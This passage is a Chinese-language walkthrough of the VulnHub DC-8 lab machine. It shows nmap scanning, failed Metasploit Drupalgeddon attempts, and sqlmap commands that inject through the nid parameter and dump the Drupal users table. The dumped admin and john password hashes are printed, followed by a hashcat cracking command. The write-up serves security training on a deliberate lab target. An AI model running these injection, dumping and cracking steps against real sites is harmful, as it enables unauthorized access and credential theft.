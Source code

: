 ![](../../../../../../assets/img/Security/安全资源/靶机/VulnHub/DC/DC8/1.png)

排除法,去掉自己、宿主机、网关, `192.168.141.141` 就是目标了

扫描开放端口
```bash
nmap -T5 -A -v -p- 192.168.141.141
```

![](../../../../../../assets/img/Security/安全资源/靶机/VulnHub/DC/DC8/2.png)

开放了 SSH 和 WEB 服务,从 WEB 开始,发现是个 Drupal 7,想到 DC1 的几个漏洞,尝试一下

![](../../../../../../assets/img/Security/安全资源/靶机/VulnHub/DC/DC8/3.png)

---

# 中期-漏洞利用

```
msfconsole
use exploit/multi/http/drupal_drupageddon
set RHOSTS 192.168.141.141
run
use exploit/unix/webapp/drupal_drupalgeddon2
set RHOSTS 192.168.141.141
run
```

都不行,还有一个 CVE-2018-7602 需要认证,就先 pass

点击左侧链接,出现 nid 参数,这个参数貌似可以注入

![](../../../../../../assets/img/Security/安全资源/靶机/VulnHub/DC/DC8/4.png)

SQLMAP 走起
```
sqlmap -u http://192.168.141.141/?nid=1 --dbs --batch
sqlmap -u http://192.168.141.141/?nid=1 -D d7db --tables --batch
sqlmap -u http://192.168.141.141/?nid=1 -D d7db -T users --dump --batch
```

![](../../../../../../assets/img/Security/安全资源/靶机/VulnHub/DC/DC8/5.png)

![](../../../../../../assets/img/Security/安全资源/靶机/VulnHub/DC/DC8/6.png)

```
admin 	$S$D2tRcYRyqVFNSc0NvYUrYeQbLQg5koMKtihYTIDC9QQqJi3ICg5z
john 	$S$DqupvJbxVmqjr6cYePnx2A891ln7lsuku/3if/oRVZJaz5mKC2vF
```

用 hashcat 跑一下

```
echo "\$S\$D2tRcYRyqVFNSc0NvYUrYeQbLQg5koMKtihYTIDC9QQqJi3ICg5z" > pass.txt
echo "\$S\$DqupvJbxVmqjr6cYePnx2A891ln7lsuku/3if/oRVZJaz5mKC2vF" >> pass.txt
hashcat -m 7900 -a 0 pass.txt /usr/share/john/password.lst
```
